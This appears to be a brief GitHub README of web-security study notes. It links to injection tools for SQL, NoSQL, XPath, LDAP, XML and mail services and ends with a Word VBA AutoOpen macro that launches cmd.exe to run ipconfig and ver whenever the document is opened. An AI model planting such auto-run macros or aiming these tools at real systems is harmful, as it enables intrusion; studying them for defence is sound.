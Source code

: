 # web-security

SQL injections tools
https://github.com/vivek3141/sql-injection-demo

No sql injection tools
https://github.com/codingo/NoSQLMap
Easy : https://github.com/FrostyLabs/NoSQL-Injection

Xpath Injection
https://github.com/r0oth3x49/Xpath

LDAP Injection
https://github.com/Atsika/lbi
https://github.com/EmreOvunc/eLdap-Ldap-Search-and-Filter

XML Injection
https://github.com/luisfontes19/xxexploiter

Sql injection using tool
Tool : https://sqlmap.org/

Mail service Injection
https://github.com/Email-Analysis-Toolkit/command-injection-tester


Create a macro document which opens command prompt while opening document. And try to execute some basic commands like IPCONFIG, windows version etc.
Sub AutoOpen()
    ' This will run when the document is opened
    Call RunCommands
End Sub

Sub RunCommands()
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")

    ' Run command prompt commands
    shell.Run "cmd.exe /c ipconfig"
    shell.Run "cmd.exe /c ver"
End Sub



